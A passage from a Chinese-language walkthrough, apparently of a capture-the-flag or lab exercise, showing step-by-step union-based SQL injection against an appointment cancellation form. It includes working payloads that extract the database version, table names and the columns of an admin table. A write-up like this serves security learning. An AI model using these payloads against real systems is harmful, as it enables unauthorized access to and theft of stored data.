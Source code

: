 但他說我沒有提供信箱
![image](https://hackmd.io/_uploads/HyEXoyX70.png)

所以我就去cancel那裡試試看(我的smtp還沒關)
![image](https://hackmd.io/_uploads/BJCvikmm0.png)

可以看到他有回傳東西
![image](https://hackmd.io/_uploads/SkKZ3yXXR.png)

網頁跳出來的是
![image](https://hackmd.io/_uploads/H18m3J77C.png)

值得注意的是ref後面感覺是有東西的，可是它是空值
![image](https://hackmd.io/_uploads/r19xTJXm0.png)

所以我試試看或許是因為全都是0的關係
但試驗過後發現不是
![image](https://hackmd.io/_uploads/Sy9waJmQR.png)

接著我在他後面加一個單引號
沒有回傳但是網頁跑得很快
感覺可以試試看sqli

![image](https://hackmd.io/_uploads/B1Bm0JX7A.png)

輸入輸到5的時候終於回傳東西了
可以看到ref值後面接著3

![image](https://hackmd.io/_uploads/SkaACJXXA.png)

`nhsnum=NHS-000-000-0000'+UNION+SELECT+1,2,@@VERSION,4,5;+--+-&submit=Cancel+Appointment`
版本

![image](https://hackmd.io/_uploads/B14nlxXmC.png)

`nhsnum=NHS-000-000-0000'+UNION+SELECT+1,2,table_name,4,5+from+information_schema.tables+where+table_schema=database();+--+-&submit=Cancel+Appointment`
table name

![image](https://hackmd.io/_uploads/BkAU-l7X0.png)


`nhsnum=NHS-000-000-0000'+UNION+SELECT+1,2,column_name,4,5+from+information_schema.columns+where+table_schema=database()+and+table_name='admin';+--+-&submit=Cancel+Appointment`
第一欄的名稱

![image](https://hackmd.io/_uploads/Byi0Wl7mC.png)

`nhsnum=NHS-000-000-0000'+UNION+SELECT+1,2,column_name,4,5+from+information_schema.columns+where+table_schema=database()+and+table_name='admin'+and+column_name!='id';+--+-&submit=Cancel+Appointment`
第二欄的名稱

![image](https://hackmd.io/_uploads/H1o_flQmR.png)
